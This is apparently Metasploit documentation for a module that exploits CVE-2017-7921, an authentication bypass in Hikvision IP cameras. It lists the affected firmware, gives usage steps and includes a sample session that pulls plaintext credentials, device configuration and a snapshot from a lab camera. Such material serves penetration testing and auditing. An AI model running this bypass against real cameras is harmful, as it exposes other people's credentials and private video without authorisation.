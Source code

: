 ## Vulnerable Application

Many Hikvision IP cameras have improper authorization logic that allows unauthenticated information disclosure
of camera information, such as detailed hardware and software configuration, user credentials, and camera snapshots.

This module allows the attacker to disclose this information without the need of authenticaton by utilizing the
improper authentication logic to send a request to the server which contains an `auth` parameter in the query string
containing a Base64 encoded version of the authorization in `username:password` format.
Vulnerable cameras will ignore the `password` parameter and will instead use the username part of this string
as the user to log in. Using user `admin` will allow an attacker to retrieve and disclose any information
of the targeted device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

1. `use auxiliary/gather/hikvision_info_disclosure_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `check`
1. `set PRINT true`
1. `set ACTION Automatic`
1. `run`
1. You should get a full disclosure of all camera information supported by this module.

## Options
### PRINT
This option allows you print all information collected to the console during execution except for
camera snapshots.

## Actions
### Automatic
Retrieves all information supported by this module
### Configuration
Retrieves the camera hardware and software configuration
### Credentials
Retrieves all configured users including the passwords in plain text format and stores them in the database.
This can be checked by using the command `creds -O <target IP>` at the Metasploit prompt.
### Snapshot
Takes a camera snapshot and stores it as a JPEG file in loot.

All information disclosed is by default stored in loot

## Scenarios

### Hikvision Camera DS-2CD2142FWD-IS -> firmware version V5.4.1, build 160525

```
msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set ACTION Automatic
ACTION => Automatic
msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set PRINT true
PRINT => true
msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > options

Module options (auxiliary/gather/hikvision_info_disclosure_cve_2017_7921):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PRINT    true             no        Print output to console (not applicable for snapshot)
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.100.180  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Auxiliary action:

   Name       Description
   ----       -----------
   Automatic  Dump all information


msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > check
[+] 192.168.100.180:80 - The target is vulnerable.
msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Running in automatic mode
[*] Getting the user credentials...
[*] Credentials for user:admin are added to the database...
[*] Credentials for user:admln are added to the database...
[*] User Credentials Information:
-----------------------------
Username:admin | ID:1 | Role:Administrator | Password: Pa$$W0rd
Username:admln | ID:2 | Role:Operator | Password: asdf1234

[+] User credentials are successfully saved to /root/.msf4/loot/20221002172346_default_192.168.100.180_hikvision.creden_049224.txt
[*] Getting the camera hardware and software configuration...
[*] Camera Device Information:
--------------------------
Device name: IP CAMERA
Device ID: 88
Device description: IPCamera
Device manufacturer: Hikvision.China
Device model: DS-2CD2142FWD-IS
Device S/N: DS-2CD2142FWD-IS2016HS77777777777
Device MAC: bc:ad:28:ff:ff:ff
Device firmware version: V5.4.1
Device firmware release: build 160525
Device boot version: V1.3.4
Device boot release: 100316
Device hardware version: 0x0

Camera Network Information:
---------------------------
IP interface: 1
IP version: v4
IP assignment: static
IP address: 192.168.100.180
IP subnet mask: 255.255.255.0
Default gateway: 192.168.100.1
Primary DNS: 8.8.8.8

Camera Storage Information:
---------------------------
Storage volume name: HDD1
Storage volume ID: 1
Storage volume description: DAS
Storage device: HDD
Storage type: internal
Storage capacity (MB): 30543
Storage device status: HD_NORMAL

[+] Camera configuration details are successfully saved to /root/.msf4/loot/20221002172347_default_192.168.100.180_hikvision.config_549113.txt
[*] Taking a camera snapshot...
[+] Camera snapshot is successfully saved to /root/.msf4/loot/20221002172348_default_192.168.100.180_hikvision.image_963468.bin
[*] Auxiliary module execution completed

msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admln   asdf1234         Password
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) >
```

## Limitations
No limitations are identified so far using this module.

